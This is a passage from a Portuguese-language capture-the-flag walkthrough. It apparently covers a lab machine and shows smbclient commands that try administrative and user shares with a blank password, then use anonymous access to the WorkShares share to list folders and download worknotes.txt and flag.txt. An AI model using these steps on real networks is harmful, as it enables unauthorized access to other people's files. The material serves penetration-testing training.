 3.  **Tentativa de Acesso aos Compartilhamentos:** Agora, tentamos nos conectar a cada compartilhamento interessante, novamente usando uma senha em branco.

    *   **Tentativa no `ADMIN$`:**
        ```bash
        smbclient \\\\{IP_DO_ALVO}\\ADMIN$
        ```
        Ao ser solicitada a senha, pressione Enter.
        *   **Resultado:** `tree connect failed: NT_STATUS_ACCESS_DENIED`. Acesso negado, como esperado para compartilhamentos administrativos sem credenciais válidas.

    *   **Tentativa no `C$`:**
        ```bash
        smbclient \\\\{IP_DO_ALVO}\\C$
        ```
        Ao ser solicitada a senha, pressione Enter.
        *   **Resultado:** `tree connect failed: NT_STATUS_ACCESS_DENIED`. Acesso negado.

    *   **Tentativa no `WorkShares`:**
        ```bash
        smbclient \\\\{IP_DO_ALVO}\\WorkShares
        ```
        Ao ser solicitada a senha, pressione Enter.
        *   **Resultado:** Sucesso! O prompt muda para `smb: \>`. Isso indica que o compartilhamento `WorkShares` permite acesso anônimo/convidado.

4.  **Navegação e Download de Arquivos dentro do `WorkShares`:** Uma vez conectado ao compartilhamento, podemos usar comandos semelhantes aos do Linux para navegar e interagir com os arquivos.

    *   No prompt `smb: \>`, digite `help` para ver os comandos disponíveis.
    *   **Listar conteúdo:**
        ```
        smb: \> ls
        ```
        Isso mostrará os diretórios `Amy.J` e `James.P`.

    *   **Navegar para `Amy.J` e baixar `worknotes.txt`:**
        ```
        smb: \> cd Amy.J
        smb: \Amy.J\> ls
        smb: \Amy.J\> get worknotes.txt
        ```
        O arquivo `worknotes.txt` é baixado para o diretório local da sua máquina atacante.

    *   **Navegar para `James.P` e baixar `flag.txt`:**
        ```
        smb: \Amy.J\> cd ..
        smb: \> cd James.P
        smb: \James.P\> ls
        smb: \James.P\> get flag.txt
        ```
        O arquivo `flag.txt` é baixado.

5.  **Sair do Cliente SMB:**
